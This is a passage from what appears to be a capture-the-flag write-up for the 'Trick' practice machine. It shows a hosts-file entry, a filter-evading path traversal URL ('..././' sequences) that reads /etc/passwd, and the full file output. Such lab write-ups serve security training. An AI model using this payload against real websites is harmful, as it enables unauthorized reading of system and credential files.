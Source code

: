 We move the cursor to the end and we add these lines:

```
10.10.11.166	preprod-marketing.trick.htb
```

We introduce the address into the browser and we can see a website. In one of the pages there is a path traversal vulnerability:

```
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././etc/passwd
```

Results:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```
